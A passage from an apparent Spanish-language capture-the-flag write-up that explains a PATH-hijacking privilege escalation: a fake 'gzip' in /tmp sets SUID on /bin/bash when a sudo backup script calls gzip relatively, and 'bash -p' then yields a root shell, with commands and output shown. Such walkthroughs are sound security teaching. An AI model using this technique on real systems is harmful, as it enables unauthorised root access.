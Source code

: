 Pero hay un problema, se está llamando a este comando de **forma relativa** y no de **forma absoluta**. Con esto me refiero a que se está llamando haciendo uso de la variable de entorno `PATH`, la cual contiene rutas donde se almacenan binarios. Y no de forma absoluta, colocando la ruta completa del comando, por ejemplo `/bin/gzip`.

Esto hace que este script sea vulnerable a un [Path hijacking](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/){:target="\_blank"}{:rel="noopener nofollow"}.

Este ataque consiste en crear un archivo que se llame igual que el **comando** que es llamado de **forma relativa**, para luego añadir su ruta en la variable de entorno `PATH` y que a la hora de llamar al comando haga match con nuestro **archivo malicioso** en lugar de con el comando legítimo.

Se entenderá mejor en la práctica, explotemos esto.

#### 1º - Crear el archivo malicioso

Vamos a la ruta `/tmp` (por ejemplo), creamos un archivo con nombre `gzip` y dentro escribimos un script en bash que asigne permisos SUID a `/bin/bash`

```bash
m4lwhere@previse:~$ cd /tmp
m4lwhere@previse:/tmp$ touch gzip
m4lwhere@previse:/tmp$ echo "chmod u+s /bin/bash" > gzip
m4lwhere@previse:/tmp$ chmod +x gzip
```

#### 2º - Añadimos la ruta /tmp a PATH

Ahora tendremos que añadir la ruta `/tmp` a la variable de entorno `PATH`:

```bash
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

#### 3º - Ejecutar script

Una vez hemos hecho lo anterior, solo queda **ejecutar el script**:

```bash
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh 
[sudo] password for m4lwhere: 
```

#### 4º - Acceder como usuario root

Ahora si miramos los permisos de `/bin/bash` veremos que es un binario `SUID`:

```bash
m4lwhere@previse:/tmp$ ls -la /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
Notese la '`s`' en los permisos.

Ahora para acceder como `root`, es tan fácil como ejecutar el comando `bash -p`:

```bash
m4lwhere@previse:~$ bash -p
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) egid=0(root) groups=0(root),1000(m4lwhere)
```
